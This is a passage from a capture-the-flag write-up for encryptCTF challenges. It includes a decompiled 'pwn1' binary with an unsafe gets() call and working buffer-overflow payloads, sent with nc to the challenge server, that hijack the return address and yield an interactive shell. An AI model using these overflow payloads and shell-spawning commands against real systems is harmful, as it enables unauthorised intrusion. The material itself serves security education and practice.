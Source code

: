 ```bash
$ printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaH\x21gh\n" | nc 104.154.106.182 1234
How's the josh?
Good! here's the flag
```

(note `\x21` to escape a `!` which is special in `bash`)

`encryptCTF{L3t5_R4!53_7h3_J05H}`

## 50 Pwn / pwn1 ##

**Description**

> Let's do some real stack buffer overflow
> 
> <span style="color:#990000;">```nc 104.154.106.182 2345```</span>
> 
> author: codacker

**Files provided**

 - [`pwn1`](files/pwn1-pwn1)

**Solution**

After decompilation:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[128]; // [esp+10h] [ebp-80h]

  setvbuf(stdout, 0, 2, 0);
  printf("Tell me your name: ");
  gets(s);
  printf("Hello, %s\n", s);
  return 0;
}
```

There is also a `shell` function loaded at address `0x080484AD`:

```c
int shell()
{
  return system("/bin/bash");
}
```

We overflow the `s` buffer and a bit more to replace the return pointer with the address of `shell`.

```bash
$ (printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xAD\x84\x04\x08\n"; cat -) | nc 104.154.106.182 2345
Tell me your name: Hello, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa??
whoami
pwn1
ls
flag.txt
pwn1
cat flag.txt
```
